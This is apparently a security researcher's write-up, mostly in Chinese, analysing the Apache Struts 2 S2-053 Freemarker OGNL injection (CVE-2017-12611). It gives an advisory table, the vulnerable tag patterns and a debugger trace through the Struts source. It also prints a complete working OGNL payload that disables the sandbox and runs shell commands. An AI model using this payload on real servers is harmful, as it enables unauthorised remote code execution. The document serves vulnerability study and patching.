 # S2-053 Demo

## Summary

| Who should read this    | All Struts 2 developers and users                            |
| :---------------------- | ------------------------------------------------------------ |
| Impact of vulnerability | A RCE attack is possible when developer is using wrong construction in Freemarker tags |
| Maximum security rating | Moderate                                                     |
| Recommendation          | Upgrade to [Struts 2.5.12](https://cwiki.apache.org/confluence/display/WW/Version+Notes+2.5.12) or [Struts 2.3.34](https://cwiki.apache.org/confluence/display/WW/Version+Notes+2.3.34) |
| Affected Software       | Struts 2.0.0 - 2.3.33 Struts 2.5 - Struts 2.5.10.1           |
| Reporter                | Lupin <lupin1314 at gmail dot com> - [jd.com](http://jd.com/) security team David Greene <david at trumpetx dot com>Roland McIntosh <struts at rgm dot nu> |
| CVE Identifier          | CVE-2017-12611                                               |

## Problem

当在Freemarker中使用表达式文本或强制表达式时，可能会导致远程代码执行。

```xml
<@s.hidden name="redirectUri" value=redirectUri />
<@s.hidden name="redirectUri" value="${redirectUri}" />
<@s.hidden name="${redirectUri}"/>
```

## Environment

| Struts2 Version | Struts-2.3.24          |
| :-------------- | :--------------------- |
| Web Server      | Tomcat 8.5.53          |
| IDE             | IDEA 2020.1.1 ULTIMATE |

## POC

![image-20200814181552969](img/image-20200814114121260.png)

payload:

```xml
%{(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='whoami').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(@org.apache.commons.io.IOUtils@toString(#process.getInputStream()))}

```

## Debug

根据漏洞描述猜测，漏洞在Freemarker模板渲染的时候发生。而struts2渲染模板的流程是在所有interceptor执行完成后，通过executeResult进行的。所以在executeResult方法处下个断点开始跟踪：

`s2-053/web/WEB-INF/lib/xwork-core-2.3.24.jar!/com/opensymphony/xwork2/DefaultActionInvocation.class:300`

![1597546189396](img/1597546189396.png)

createResult通过获取配置文件struts.xml中的result信息创建Result。由于我们配置的是`<result name="success" type="freemarker">index.ftl</result>`，所以创建的Result类型为FreemarkerResult。跟入execute方法：

![1597548255233](img/1597549902268.png)

conditionalParse方法之前见到过多次（见s2-016分析）， 该函数用于处理跳转地址location，会判断location是否有`ognl`表达式，有的话将会执行表达式。但是跟了一遍没发现执行payload，说明struts2是没问题的，继续往下进入FreemarkerResult的doExecute方法：

```java
public void doExecute(String locationArg, ActionInvocation invocation) throws IOException, TemplateException {
        ...
        String absoluteLocation;
        if (this.location.startsWith("/")) {
            absoluteLocation = this.location;
        } else {
            String namespace = invocation.getProxy().getNamespace();
            if (namespace != null && namespace.length() != 0 && !namespace.equals("/")) {
                if (namespace.startsWith("/")) {
                    absoluteLocation = namespace + "/" + this.location;
                } else {
                    absoluteLocation = "/" + namespace + "/" + this.location;
                }
            } else {
                absoluteLocation = "/" + this.location;
            }
        }

        Template template = this.configuration.getTemplate(absoluteLocation, this.deduceLocale());
        TemplateModel model = this.createModel();
        if (this.preTemplateProcess(template, model)) {
            try {
                Writer writer = this.getWriter();
                if (!this.isWriteIfCompleted() && this.configuration.getTemplateExceptionHandler() != TemplateExceptionHandler.RETHROW_HANDLER) {
                    template.process(model, writer);
                } else {
                    ...
                }
            } finally {
                this.postTemplateProcess(template, model);
            }
        }

    }
```

首先计算绝对路径absoluteLocation，getTemplate方法获取模板中的Freemarker标签，传入template.process方法解析。一路跟入process()->visit()->accept():

![1597553748036](img/1597553748036.png)

遍历解析每一个Freemarker标签。直接循环至i=2解析payload的标签`<@s.hidden name="${message}"></@s.hidden>`。跟入env.visit() -> accept():

![1597555768958](img/1597555768958.png)

遍历Freemarker标签属性。这里注意到`${message}`在经过valueExp.eval()方法后被替换成payload，跟入eval方法至this.rootDataModel.get(name)方法，有点绕，具体流程可参考下图调用栈。

可以看到，Freemarker对`${message}`表达式进行了一次解析，并将解析后的值放入Map。

![1597583665740](img/1597583665740.png)

回到accept继续执行，进入visitAndTransform()。【省略一段繁琐的调试...】

最后发现了熟悉的translateVariables()方法，调用evaluate方法解析了payload中的ognl表达式。调用栈如下：

![1597588794722](img/1597587950056.png)

## Reference

- [S2-053](https://cwiki.apache.org/confluence/display/WW/S2-053)

- [S2-053 远程代码执行漏洞](https://github.com/vulhub/vulhub/blob/master/struts2/s2-053/README.zh-cn.md)
